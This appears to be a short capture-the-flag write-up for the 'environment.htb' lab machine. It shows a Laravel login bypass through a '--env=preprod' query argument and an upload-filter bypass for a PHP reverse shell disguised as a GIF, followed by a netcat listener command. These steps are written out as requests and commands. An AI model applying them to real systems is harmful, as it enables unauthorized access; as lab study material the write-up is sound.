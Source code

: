 ```
POST /login HTTP/1.1
Host: environment.htb
...
_token=g97unpa8CkocqX66zo4XDqkud8s80P898pqGFfaF&email=test%40c.com&password=test&remember=FUZZED
```


- All POST requests in Laravel require a **CSRF token** (`_token`)
    
- POST without token → 419 Page Expired
    
- Token regenerated on every failed request
    
- `remember` parameter can expose source code


### Bypass Login

We found that the `preprod` environment variable allows direct login.

With interception enabled, we can bypass login using the following request:

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
...
_token=g97unpa8CkocqX66zo4XDqkud8s80P898pqGFfaF&email=test%40c.com&password=test&remember=True
```

Accessed: `http://environment.htb/management/dashboard`


---

### File Upload (Reverse Shell)

- Endpoint: `/management/profile`

    
- Bypass image restrictions:

```
Estensione: rev.php.
Content-Type: image/gif
Magic bytes: GIF89a
```


Listener:

```bash
nc -nvlp 1234
```

---

### User Shell (hish)

```bash
cd /home/hish
ls -lah
```
